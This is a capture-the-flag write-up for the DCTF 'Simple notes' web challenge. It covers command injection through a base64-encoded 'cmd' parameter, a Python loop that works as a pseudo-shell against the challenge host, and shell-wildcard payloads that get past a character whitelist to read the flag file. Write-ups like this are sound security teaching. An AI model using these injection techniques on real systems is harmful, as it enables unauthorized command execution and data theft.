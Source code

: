 # Simple notes (web, 50p, 16 solved)

In the challenge we get access to some simple webapp, where each user gets his own sandbox and then we can theoretically upload `small files`, and there are some options to list our files.

If we look closely, the listing feature actually includes `cmd` GET parameter, which contains base64 encoded shell command.
This means we can do:

```python
import requests


def main():
    token = "HlGQedjDN9z4rFF2l2wUrpf551q2wjDI6mBXDwue"
    while True:
        url = "https://simple-notes.dctf-final.def.camp/router.php?token=" + token + "&cmd="
        payload = input(">")
        r = requests.get(url + payload.encode("base64"))
        print(r.text)


main()
```

To get a sort-off reverse shell.
There was a pretty strict whitelist of allowed characters, but since `ls -la *` was the "standard" command, you had at least those characters.

The idea was to figure out that you can upload only 1 byte-long files, and get RCE by sending `*` in a directory with a bunch of files with names which would combine into a shell command.

However, this was visible for other teams, and also a bit problematic, so we came up with an easier idea -> use shell wildcards to reach files we want.

First we listed all files via `ls -la /*/*` and found the flag location.
Then we created payload `/*a*/www/**/**/*.p*` to reach the flag file in `/var/www/html/flag/flag.php` and tried to reach some binary which could print the flag for us.

It took a moment, because with limited charset it's hard to reach the one particular binary you want, and most classic options like `cat` were not doable.
Finally we found that calling `awk 4 filename` will do the trick and we could get this one via `/*s*/*/aw* 4 /*a*/www/**/**/*.p*` and read the flag `DCTF{06246a82f83ee63876087293874010cde73a269d8d227605d50d238850faca0c}`
